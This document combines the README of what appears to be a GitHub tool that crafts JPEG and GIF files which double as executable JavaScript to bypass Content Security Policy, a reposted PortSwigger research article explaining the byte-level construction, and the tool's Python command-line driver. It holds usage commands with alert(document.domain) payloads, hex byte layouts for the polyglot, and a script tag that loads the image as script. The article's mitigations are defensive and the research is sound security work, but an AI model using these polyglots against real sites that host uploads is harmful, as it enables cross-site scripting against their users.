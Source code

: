 
##
## https://github.com/s-3ntinel/imgjs_polygloter
## https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs
##


Image Polyglot

This program can craft a valid image that is simultaneously a valid and executable javascript file (polyglot). Its main use is to bypass CSP.

Main inspiration came from this article.

https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs
Usage
JPG

./img_polygloter.py jpg --height 123 --width 321 --payload "alert(document.domain);" --output jpg_poly.js

GIF

./img_polygloter.py gif --payload "alert(document.domain);" --output gif_poly.js

TODO

    gif dimensions, if possible
    png crafting


##
##

Bypassing CSP using polyglot JPEGs

Gareth Heyes
Gareth Heyes

Researcher

@garethheyes

    Published: 01 December 2016 at 13:44 UTC

    Updated: 14 June 2019 at 12:15 UTC

Bypassing CSP using polyglot JPEGs

James challenged me to see if it was possible to create a polyglot JavaScript/JPEG. Doing so would allow me to bypass CSP on almost any website that hosts user-uploaded images on the same domain. I gleefully took up the challenge and begun dissecting the format. The first four bytes are a valid non-ASCII JavaScript variable 0xFF 0xD8 0xFF 0xE0. Then the next two bytes specify the length of the JPEG header. If we make that length of the header 0x2F2A using the bytes 0x2F 0x2A as you might guess we have a non-ASCII variable followed by a multi-line JavaScript comment. We then have to pad out the JPEG header to the length of 0x2F2A with nulls. Here's what it looks like:
FF D8 FF E0 2F 2A 4A 46 49 46 00 01 01 01 00 48 00 48 00 00 00 00 00 00 00 00 00 00....

Inside a JPEG comment we can close the JavaScript comment and create an assignment for our non-ASCII JavaScript variable followed by our payload, then create another multi-line comment at the end of the JPEG comment.
FF FE 00 1C 2A 2F 3D 61 6C 65 72 74 28 22 42 75 72 70 20 72 6F 63 6B 73 2E 22 29 3B 2F 2A

0xFF 0xFE is the comment header 0x00 0x1C specifies the length of the comment then the rest is our JavaScript payload which is of course */=alert("Burp rocks.")/*

Next we need to close the JavaScript comment, I edited the last four bytes of the image data before the end of image marker. Here's what the end of the file looks like:
2A 2F 2F 2F FF D9

0xFF 0xD9 is the end of image marker. Great so there is our polyglot JPEG, well not quite yet. It works great if you don't specify a charset but on Firefox when using a UTF-8 character set for the document it corrupts our polyglot when included as an script! On MDN it doesn't state that the script supports the charset attribute but it does. So to get the script to work you need to specify the ISO-8859-1 charset on the script tag and it executes fine.

It's worth noting that the polyglot JPEG works on Safari, Firefox, Edge and IE11. Chrome sensibly does not execute the image as JavaScript.

Here is the polyglot JPEG:

Polyglot JPEG

The code to execute the image as JavaScript is as follows:
<script charset="ISO-8859-1" src="http://portswigger-labs.net/polyglot/jpeg/xss.jpg"></script>
File size restrictions 

I attempted to upload this graphic as a phpBB profile picture but it has restrictions in place. There is a 6k file size limit and maximum dimensions of 90x90. I reduced the size of the logo by cropping and thought about how I could reduce the JPEG data. In the JPEG header I use /* which in hex is 0x2F and 0x2A, combined 0x2F2A which results in a length of 12074 which is a lot of padding and will result in a graphic far too big to fit as a profile picture. Looking at the ASCII table I tried to find a combination of characters that would be valid JavaScript and reduce the amount of padding required in the JPEG header whilst still being recognised as a valid JPEG file.

The smallest starting byte I could find was 0x9 (a tab character) followed by 0x3A (a colon) which results in a combined hex value of 0x093A (2362) that shaves a lot of bytes from our file and creates a valid non-ASCII JavaScript label statement, followed by a variable using the JFIF identifier. Then I place a forward slash 0x2F instead of the NULL character at the end of the JFIF identifier and an asterisk as the version number. Here's what the hex looks like:
FF D8 FF E0 09 3A 4A 46 49 46 2F 2A

Now we continue the rest of the JPEG header then pad with NULLs and inject our JavaScript payload:
FF D8 FF E0 09 3A 4A 46 49 46 2F 2A 01 01 00 48 00 48 00 00 00 00 00 00 00 ... (padding more nulls) 2A 2F 3D 61 6C 65 72 74 28 22 42 75 72 70 20 72 6F 63 6B 73 2E 22 29 3B 2F 2A

Here is the smaller graphic:

Polyglot JPEG smaller
Impact

If you allow users to upload JPEGs, these uploads are on the same domain as your app, and your CSP allows script from "self", you can bypass the CSP using a polyglot JPEG by injecting a script and pointing it to that image.
Conclusion

In conclusion if you allow JPEG uploads on your site or indeed any type of file, it's worth placing these assets on a separate domain. When validating a JPEG, you should rewrite the JPEG header to ensure no code is sneaked in there and remove all JPEG comments. Obviously it's also essential that your CSP does not whitelist your image assets domain for script.

This post wouldn't be possible without the excellent work of Ange Albertini. I used his JPEG format graphic extensively to create the polygot JPEG. Jasvir Nagra also inspired me with his blog post about polyglot GIFs.

PoC
Update...

Mozilla are fixing this in Firefox 51.

Visit our Web Security Academy to learn more about cross-site scripting (XSS)


```
#!/usr/bin/python3

import struct, sys, argparse
from craft_jpg import *
from craft_gif import craft_gif_polyglot


def save_polyglot(data, output_file):
  with open(output_file, 'wb') as f:
    f.write(data)


def main():
  parser = argparse.ArgumentParser()

  subparsers = parser.add_subparsers(dest='img_format', help='image format')

  jpg_parser = subparsers.add_parser('jpg', help='craft jpg polyglot')
  jpg_parser.add_argument('-H', '--height', default=1024, type=int, help='jpg height', dest='height')
  jpg_parser.add_argument('-W', '--width', default=1024, type=int, help='jpg width', dest='width')
  jpg_parser.add_argument('-p', '--payload', required=True, type=str, help='js payload (separate commands with a semicolon)', dest='payload')
  jpg_parser.add_argument('-o', '--output', required=True, help='specify filename for output', dest='output_file')

  gif_parser = subparsers.add_parser('gif', help='craft gif polyglot')
  gif_parser.add_argument('-p', '--payload', required=True, type=str, help='js payload (separate commands with a semicolon)', dest='payload')
  gif_parser.add_argument('-o', '--output', required=True, help='specify filename for output', dest='output_file')

  args = parser.parse_args()

  if args.img_format == 'jpg':
    jpg_check_dims(args.height, args.width)
    data = craft_jpg_polyglot(args.height, args.width, args.payload)
    save_polyglot(data, args.output_file)

  elif args.img_format == 'gif':
    data = craft_gif_polyglot(args.payload)
    save_polyglot(data, args.output_file)

if __name__ == '__main__':
  main()
```
